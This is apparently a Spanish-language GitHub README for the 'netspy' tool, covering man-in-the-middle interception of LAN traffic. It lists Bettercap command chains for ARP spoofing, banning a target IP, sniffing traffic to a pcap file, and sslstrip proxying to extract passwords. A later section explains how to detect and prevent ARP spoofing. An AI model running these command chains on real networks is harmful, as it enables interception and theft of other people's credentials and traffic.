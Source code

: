 # Interceptacion Ethernet (MiTM)  de trafico LAN en claro:

### Estenarios:

## 1º.- Interceptación entre 2 dispositivos; 

Disponer de  acceso y privilegios suficientes  en uno de los 2 dispositivos A ---//...B , e instalar, para interceptar el trafico de algun interfaces, en alguno de los extremos: Wireshark, dsniff, Smartsnif nifsoft, Bettercap, Ethercap, Extension navegador, netspy, tcpdump etc..

## 2º.- red LAN con HUB o switch basico "sin inteligencia"

Instalar un HUB en el medio de una red, por su modo de funcionamiento rebotan todos los pquete en todas las MAC y paquete Ethernet, par interceptación.

Instalar un PC conectado al HUB, con la  tarjeta  de red en modo promiscuo, que escuche todo el trafico de la red. Tener instalado Wireshark, netspy,etc

Modificar MAC Adrees de un PC conectado a la red, con la MAC Broadcast FF:FF:FF:FF:FF:FF:FF:FF que escurche todo el trafico de la red

## 3º.- En una red LAN con conmutadores Switch inteligente configurable :

Configurar port mirroning en el switch para que una copia de todo el trafico se encamine a una sola ethernet del switch, donde hay un PC en modo promiscuo con Wirehark, netspy, etc.. capturando 

En un PC conectado a la red instalar un Proxy, para hacer pasar, encaminar por configuracion o por ARP Spoofing, el trafico por el e interceptar el trafico!

En un PC conectado instala un Proxy trasparente. Usa ARP Spoofing, suplantación de MAC, para encaminar y poder ver e interceptar  el trafico de otros dispositivos!

## 4º.- Instalar  en: pasarelas, FW , routers, swithes, etc.. equipos en medio de las redes para interceptación: HUBS, switches port mirronig, proxyes, TAB .. 

<img style="float:left" alt="Escenarios interceptacion" src="https://github.com/hackingyseguridad/netspy/blob/master/MiTM.png">

### https://www.bettercap.org/ Beettercap combina ARP Spoofing y proxy trasparte

<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

## 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

## Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

## Uso.:

sh netspy

sh proxynetspy

netdiscover

IMPORTANTE: Para salir del modo de descubrimiento 'net probe on' y empezar a esnifar teclea 'exit'.

## Bettercap v2.9

Escanear toda la Red:

net.probe on; ticker on

Banear tarjet IP con ARP:

set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

Ver trafico web por proxy y extrae claves:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on; set http.proxy.sslstrip true

Ver trafico web por proxy y extrae claves de cifrados debiles:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on;  true; set http.proxy.port 80; set https.proxy.port 443; http.proxy on; https.proxy on; set http.proxy.sslstrip

Versiones antiguas Bettercap: 1.6.1 y 1.6.2 en Python

para hacer interceptación; salvo que exista posibilidad de acceder o comprometer  un equipo con privilegios suficientes para instalar software o ser utilizado para MiTM, o que tengamos posbilidad de instlar en la red ficisamente algun dispositivo, siempre como elemento comun es necesario hacer ARP Spoofing y/o proxy trasparente: 

El ARP Spoofing, o envenenamiento ARP, es un tipo de ataque que puede comprometer seriamente la seguridad de una red local. Consiste en la manipulación de la MAC Addres y por tanto tabla ARP de un dispositivo para redirigir el tráfico de red hacia el atacante, permitiéndole interceptar y modificar la información que fluye por la red.
¿Cómo detectar un ataque de ARP Spoofing?
Este tipo de ataque suele ser silencioso y difícil de detectar a simple vista, es fundamental contar con herramientas y técnicas específicas. P.ej:

Herramientas de Detección:

•	Sistemas de detección de intrusiones (IDS): Un IDS bien configurado puede detectar anomalías en el tráfico de red, como un aumento repentino en el número de solicitudes ARP o respuestas ARP falsas.

•	Sniffers de paquetes: Herramientas como Wireshark te permiten analizar el tráfico de red en tiempo real. Al examinar los paquetes ARP, puedes identificar patrones inusuales o respuestas ARP falsas.

•	Herramientas especializadas: Existen herramientas diseñadas específicamente para detectar ARP Spoofing, como ARPwatch, que monitorea la tabla ARP y alerta sobre cambios inesperados.

Técnicas de Detección:
•	Problemas de conectividad: Dificultad para acceder a ciertos sitios web o servicios de red.
•	Monitoreo de la tabla ARP: Revisa regularmente la tabla ARP de los dispositivos de tu red para identificar entradas desconocidas o duplicadas.
•	Análisis de registros: Examina los registros del sistema y de las herramientas de seguridad para buscar cualquier indicio de actividad sospechosa, como intentos de acceso no autorizados o cambios en la configuración de la red.
•	Pruebas de penetración: Realiza pruebas de penetración periódicas para identificar vulnerabilidades en tu red y evaluar la efectividad de tus medidas de seguridad.
•	Uso de protocolos de seguridad: Implementa protocolos de seguridad como DHCP Snooping, IP Source Guard y Dynamic ARP Inspection (DAI), que pueden ayudar a prevenir y detectar ataques de ARP Spoofing.
Síntomas de un Ataque de ARP Spoofing:
Aunque no siempre son evidentes, algunos síntomas pueden indicar un ataque de ARP Spoofing:
•	Pérdida de paquetes: Interrupciones en la comunicación o lentitud en la red.
•	Actividad sospechosa en la red: Detección de tráfico no autorizado o intentos de acceso a recursos sensibles.
•	Cambios inesperados en la configuración de red: Modificaciones no autorizadas en la configuración de los dispositivos de red.

Prevención del ARP Spoofing:
•	Configuraciones estáticas: Establece entradas ARP estáticas para dispositivos críticos, como routers y servidores.  habilitar "client isolation",
•	Segmentación de redes: Divide tu red en segmentos más pequeños para limitar el impacto de un posible ataque.
•	Actualizaciones de software: Mantén todos tus dispositivos actualizados con los últimos parches de seguridad.
•	Educación de los usuarios: Sensibiliza a los usuarios sobre los riesgos de los ataques cibernéticos y cómo protegerse.
•	implementar nuevo ARP firmado con certificado y clave PKI

https://github.com/hackingyseguridad/mitm

www.hackingyseguridad.com
